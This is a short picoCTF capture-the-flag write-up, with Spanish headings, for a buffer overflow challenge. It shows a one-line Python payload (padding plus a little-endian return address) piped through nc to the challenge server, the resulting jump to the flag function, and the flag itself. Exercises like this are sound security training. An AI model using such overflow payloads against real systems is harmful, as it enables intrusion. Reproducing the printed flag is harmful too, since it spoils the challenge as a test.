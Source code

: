 ## Introducción
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln).You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 57373`

1.-Make sure you consider big Endian vs small Endian.
2.- Changing the address of the return pointer can call different functions.

## Descripción
```
┌──(root㉿kali)-[~]
└─# (python3 -c "import sys;sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08')";echo) | nc saturn.picoctf.net 57373 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
 picoCTF{addr3ss3s_ar3_3asy_6462ca2d} 
```

## Solución 
picoCTF{addr3ss3s_ar3_3asy_6462ca2d} 